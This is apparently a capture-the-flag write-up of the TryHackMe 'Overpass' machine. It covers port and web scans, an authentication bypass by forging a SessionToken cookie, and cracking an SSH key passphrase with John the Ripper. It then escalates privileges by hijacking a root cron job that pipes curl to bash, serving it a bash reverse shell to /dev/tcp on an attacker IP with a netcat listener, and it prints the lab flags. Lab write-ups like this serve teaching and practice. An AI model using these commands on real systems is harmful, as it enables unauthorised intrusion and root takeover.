


# 🕵️‍♂️ Overpass - 1 | Writeup | 25 June 2025

<div align="center">
    
</div>
<div align="center">
    
</div>

---

## 🚩 Table of Contents

- [Reconnaissance & Enumeration - Task 1](#reconnaissance--enumeration---task-1)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

---

# 🕵️ Reconnaissance & Enumeration - Task 1

## 🔍 Nmap Scan

**Command:**
```bash
sudo nmap -T4 -n -sC -sV -Pn -p- -oN fastscan.txt 10.10.5.56
```
<p align="center">
  
</p>

---

## 📂 Directory Scan (Dirbuster)

**Command:**
```bash
dirbuster -u http://10.10.191.18/ -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```
<p align="center">
  
</p>

---

## 🔎 Web Vulnerability Scanning

**Nikto Scan:**
```bash
nikto -h http://10.10.209.74/ -o nikto_scan.txt
```
<p align="center">
  
</p>

---
## 🌐 Web Enumeration

- **Admin Page Discovery:**  
  

- **Network Analysis of Admin Page:**  
  

- **Session Manipulation:**  
  Set the cookie `SessionToken` to any value (e.g., `1`) to bypass authentication.
  

- **Admin Dashboard Access:**  
  

---

## 🔑 SSH Access

- **Extracting the RSA Private Key:**  
  Copy the RSA private key from the admin dashboard and save it locally.
  ```bash
  echo "<RSA PRIVATE KEY>" > id_rsa
  chmod 600 id_rsa
  ```
  

- **Passphrase Required:**  
  

- **Cracking the Passphrase:**  
  Convert the key for John the Ripper:
  ```bash
  ssh2john id_rsa > hash.txt
  john hash.txt
  ```
  
  

  **Credentials:**  
  - **Passphrase:** `james13`

- **SSH Login:**
  ```bash
  ssh -i id_rsa james@10.10.2.81
  ```
  

---

## 🏁 User Flag

- **Flag:**  
  `thm{65c1aaf000506e56996822c6281e6bf7}`
  
  

---

# 🚀 Privilege Escalation

- **Check Crontab for Scheduled Tasks:**
  ```bash
  cat /etc/crontab
  ```
  

- **Suspicious Cron Job:**
  ```
  * * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
  ```
  

- **Host File Manipulation:**  
  Point `overpass.thm` to your attacker's IP.
  ```bash
  sudo nano /etc/hosts
  ```
  

- **Prepare Reverse Shell Script:**  
  Place your reverse shell in `/downloads/src/buildscript.sh`:
  ```bash
  bash -i >& /dev/tcp/10.8.76.195/4444 0>&1
  ```
  
  

- **Serve the Payload:**
  ```bash
  python3 -m http.server 80
  ```
  

- **Start Netcat Listener:**
  ```bash
  nc -lvnp 4444
  ```
  

- **Root Shell Acquired:**
  

- **Verify Root Access:**
  ```bash
  whoami
  ```
  

---

## 🏁 Root Flag

- **Flag:**  
  `thm{7f336f8c359dbac18d54fdd64ea753bb}`

  

---

# 🎯 Conclusion

- All tasks completed successfully!
  

---

## 🎉 Happy Hacking!

<p align="center">
    <a href="https://giphy.com/gifs/charlie-hunnam-gif-hunt-102h4wsmCG2s12">
        
    </a>
</p>

---
